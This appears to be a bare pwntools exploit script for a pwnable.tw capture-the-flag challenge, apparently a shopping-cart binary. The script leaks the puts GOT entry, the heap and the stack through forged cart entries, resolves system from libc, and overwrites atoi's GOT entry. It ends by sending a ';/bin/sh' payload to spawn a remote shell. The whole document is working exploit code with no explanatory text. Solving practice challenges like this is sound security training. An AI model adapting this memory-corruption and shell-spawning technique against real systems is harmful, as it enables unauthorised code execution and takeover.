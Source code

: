 ```python
if 'l' in sys.argv[1] and 'r' not in sys.argv[1]:
	log.info('Test in local...')
	sh=process(binary)
if 'r' in sys.argv[1]:
	log.info('Attacking...')
	sh=remote('chall.pwnable.tw',10104)

elf = ELF(binary,checksec=False)
#libc = ELF('',checksec=False)
puts_got = elf.got['puts']
atoi_got = elf.got['atoi']
mycart = 0x804B068
add = '2';delete='3';cart='4';checkout='5'

def do(choice,payload):
	sh.sendlineafter('> ',choice)
	sh.sendlineafter('>',payload)

for i in range(6):
	do(add,b'1')
for i in range(20):
	do(add,b'2')

do(checkout,b'y') #add iphone-8

payload= b'y\x00'+p32(puts_got)+p32(0x1)+p32(mycart+8)+p32(1)
do(cart,payload)
sh.recvuntil('27: ')
puts_addr=u32(sh.recv(4))
sh.recvuntil('28: ')
heap_addr = u32(sh.recv(4))
leak('puts addr',puts_addr)
leak('heap addr',heap_addr)
libc = LibcSearcher('puts',puts_addr)
libcbase = puts_addr - libc.dump('puts')
leak('libc base',libcbase)
system = libcbase+libc.dump('system')

env = libcbase+libc.dump('environ')
payload= b'y\x00'+p32(env)+p32(0x1)+p32(mycart+8)+p32(1)
do(cart,payload)
sh.recvuntil('27: ')
stack =u32(sh.recv(4))
leak('stack',stack)

payload = b'27'+p32(env)+p32(0x1)+p32(atoi_got+0x22)+p32(stack - 0x100 - 0xc)

do(delete,payload)

sh.sendlineafter('> ',p32(system)+b';/bin/sh')

sh.interactive()
```
